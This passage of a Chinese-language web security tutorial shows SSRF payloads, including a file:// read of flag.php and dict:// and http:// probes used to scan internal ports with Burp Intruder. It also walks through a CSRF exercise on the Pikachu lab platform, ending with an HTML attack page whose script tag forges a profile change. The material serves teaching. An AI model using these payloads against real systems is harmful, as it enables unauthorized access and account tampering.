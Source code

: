 举例：

```
?url=file:///var/www/html/flag.php
```

##### 3、端口扫描

在SSRF中，dict协议与http协议可以用来探测内网主机存活与端口开放情况。

```
?url=dict://127.0.0.1:8000
```

用burp，在intruder中，将端口设置为变量。使用Simple List扫描常用端口，或者使用NumerList进行枚举。当发现长度不同的数据包时，再用`http`协议进一步探测。

```
?url=http://127.0.0.1:8111
```

##### 4、其他

详细参考：[SSRF的利用方式](https://www.freebuf.com/articles/web/265646.html)

# 演示案例

## Pikachu—CSRF 案例及Burp检测

虚拟机上搭建Pikachu测试平台，进入CSRF练习模块，物理机访问

![](https://img.yatjay.top/md/202203080959254.png)

CSRF(get)模块登录一个账号(一共有这么些用户vince/allen/kobe/grady/kevin/lucy/lili,密码全部是123456)，点击进入信息修改页面，修改后提交时进行抓包，得到修改用户信息时的URL

![](https://img.yatjay.top/md/202203081000262.png)

则修改用户信息时的URL为

```
http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=12345678910&add=china&email=kobe%40pikachu.com&submit=submit
```

将得到的修改用户信息自定义，插入攻击者构造的页面中

我们构造修改用户信息的URL即payload为

```
http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=88888888888&add=Shanghai&email=kobe%40pikachu.com&submit=submit
```

插入某个自定义的页面

```html
<!DOCTYPE html>
<html>
<head> 
<meta charset="utf-8"> 
<title>文档标题</title>
</head>
 
<body>
	<script src="http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=88888888888&add=Shanghai&email=kobe%40pikachu.com&submit=submit"></script>
	<p>HELLO CSRF</p>
</body>
 
</html>
```
